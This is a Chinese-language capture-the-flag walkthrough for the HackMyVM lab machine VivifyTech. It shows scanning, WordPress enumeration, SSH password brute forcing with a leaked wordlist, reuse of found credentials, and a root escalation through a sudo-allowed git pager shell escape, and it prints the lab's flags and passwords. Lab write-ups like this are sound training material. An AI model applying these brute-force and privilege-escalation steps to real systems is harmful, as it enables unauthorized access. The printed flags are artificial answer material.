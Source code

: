 # VivifyTech

2025.03.13 https://hackmyvm.eu/machines/machine.php?vm=VivifyTech

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

web 扫描发现 http://192.168.5.39/wordpress/ , 先上 wpscan 发现用户名 sancelisso 爆破没戏。

再次扫描 wordpress，发现这个 url http://192.168.5.39/wordpress/wp-includes/secrets.txt 里面存有密码字典，再次使用这个字典爆破 wordpress 也没成功。

在下面这个帖子的标题上看到 The story behind VivifyTech 可能有提示， http://192.168.5.39/wordpress/index.php/2023/12/05/the-story-behind-vivifytech/ 中找到了几个这个公司的人员的姓名：

```
sarah
mark
emily
jake
alex
```

目前还有一个 ssh 途径，使用上面的到的 secret.txt 和存在的用户名，进行爆破：

```
[22][ssh] host: 192.168.5.39   login: sarah   password: bohicon
```

进行 ssh 登陆，先读取到 user flag：

```
sarah@VivifyTech:~$ cat user.txt
HMV{Y0u_G07_Th15_0ne_6543}
```

枚举后，发现提示文件：

```
sarah@VivifyTech:~$ cat /home/sarah/.private/Tasks.txt
- Change the Design and architecture of the website
- Plan for an audit, it seems like our website is vulnerable
- Remind the team we need to schedule a party before going to holidays
- Give this cred to the new intern for some tasks assigned to him - gbodja:4Tch055ouy370N
```

新的用户凭据 gbodja:4Tch055ouy370N 切换后 sudo 显示 (ALL) NOPASSWD: /usr/bin/git 提权到 root：

```
sudo git -p help config
!/bin/sh
```

拿到 root flag：

```
root@VivifyTech:~# cat root.txt
HMV{Y4NV!7Ch3N1N_Y0u_4r3_7h3_R007_8672}
```
